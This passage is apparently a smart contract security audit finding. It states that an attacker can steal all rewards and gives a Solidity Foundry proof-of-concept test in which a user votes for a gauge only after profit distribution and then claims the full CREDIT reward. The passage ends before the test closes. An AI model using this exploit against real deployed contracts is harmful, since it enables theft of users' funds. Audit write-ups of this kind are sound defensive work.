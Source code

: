 ### Impact

Attacker is able to steal all rewards.

### Proof Of Concept

```solidity
function testIncrementWeightAfterProfitDistribution() public {
        vm.startPrank(governor);
        core.grantRole(CoreRoles.GOVERNOR, address(this));
        core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
        core.grantRole(CoreRoles.GUILD_MINTER, address(this));
        core.grantRole(CoreRoles.GAUGE_ADD, address(this));
        core.grantRole(CoreRoles.GAUGE_PARAMETERS, address(this));
        core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(this));
        vm.stopPrank();

        vm.prank(governor);
        profitManager.setProfitSharingConfig(
            0, // surplusBufferSplit
            0.5e18, // creditSplit
            0.5e18, // guildSplit
            0, // otherSplit
            address(0) // otherRecipient
        );
        guild.setMaxGauges(1);
        guild.addGauge(1, gauge1);

        address maliciousUser = makeAddr("maliciousUser");

        // Have a user voting for a gauge before the profit distribution
        address user = makeAddr("user");
        guild.mint(user, 10000e18);
        vm.prank(user);
        guild.incrementGauge(address(gauge1), 10000e18);

        uint256 profitIndex = profitManager.gaugeProfitIndex(address(gauge1));
        assertEq(profitIndex, 0);

        credit.mint(address(profitManager), 10000e18);
        profitManager.notifyPnL(address(gauge1), 10000e18);

        // New profit index signaling that profits were distributed
        uint256 newProfitIndex = profitManager.gaugeProfitIndex(
            address(gauge1)
        );
        assertEq(newProfitIndex, 1500000000000000000);

        // @audit User started voting for a gauge only after profit was distributed
        guild.mint(maliciousUser, 10000e18);
        vm.prank(maliciousUser);
        guild.incrementGauge(address(gauge1), 10000e18);
        // User gaugeProfitIndex is 0
        uint256 index = profitManager.userGaugeProfitIndex(
            maliciousUser,
            address(gauge1)
        );
        assertEq(index, 0);

        // @audit maliciousUser received all rewards in CREDIT
        uint256 balanceBefore = credit.balanceOf(maliciousUser);
        profitManager.claimGaugeRewards(maliciousUser, address(gauge1));
        uint256 balanceAfter = credit.balanceOf(maliciousUser);
        assertEq(balanceAfter, balanceBefore + 5000000000000000000000);
```